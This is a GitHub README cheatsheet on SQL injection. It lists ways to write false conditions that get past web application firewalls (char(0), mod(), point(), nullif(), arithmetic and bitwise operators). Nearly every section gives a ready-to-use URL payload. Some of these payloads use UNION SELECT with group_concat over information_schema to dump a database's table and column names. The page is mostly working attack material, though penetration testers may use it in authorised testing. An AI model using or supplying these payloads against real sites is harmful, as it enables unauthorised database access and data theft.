 ## The traditional way of using **And 0**

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#the-traditional-way-of-using-and-0)

- And 1=0
- And false
- And 0
- And 50=60
- Any number that are not the same will equal to (0,false,null)

## The alternative way of using **And 0** for WAF Bypass purpose

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#the-alternative-way-of-using-and-0-for-waf-bypass-purpose)

### Using char() for 0, null, false values

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#using-char-for-0-null-false-values)

- And char(0)
- And char(false)
- And char(null)

```
http://website.com/index.php?id=1 and char(0) Union Select '1 and char(0) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```

### Any Mathematical/Arithmetic or Logical Problem's that equal to 0

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#any-mathematicalarithmetic-or-logical-problems-that-equal-to-0)

- And 1*0
- And 1-1
- And 0/1

```
http://website.com/index.php?id=1 and 1*0 order by 1--
```

### Using mod()

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#using-mod)

- And mod(29,9)

```
http://website.com/index.php?id=1 and mod(29,9) Order by 10--
```

### Using point()

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#using-point)

- And point(29,9)

```
http://website.com/index.php?id=1 and point(29,9) Order by 10--
```

### Using **nullif(1336,1337)**

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#using-nullif13361337)

If one arguments is different nullif(1336,1337) it return the first argument and it will consider as true.So no need to use this.But sometimes it works. Since both arguments are equal it return as null value or it's considered as false,0,null and it will valid as Bypass Method in SQL.

- And nullif(1337,1337)

```
http://website.com/index.php?id=1 and nullif(1337,1337) Union Select '1 and nullif(1337,1337) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```

## Illegal parameter data types

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#illegal-parameter-data-types)

### For operation **MOD**

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#for-operation-mod)

- % = Modulo

```
http://website.com/index.php?id=1 % point(29,9) Order by 10--
```

### For operation **&**

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#for-operation-)

- & = Bitwise And
- && = Logical And

```
http://website.com/index.php?id=1 && point(29,9) Order by 10--
```

### For operation **OR**

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/The%20Alternative%20way%20of%20using%20And%200%20in%20SQL%20Injection#for-operation-or)

- | = Bitwise OR
- || = Logical OR, sometimes use for Concatanation

```
http://website.com/index.php?id=1 ||point(29,9) Order by 11--
```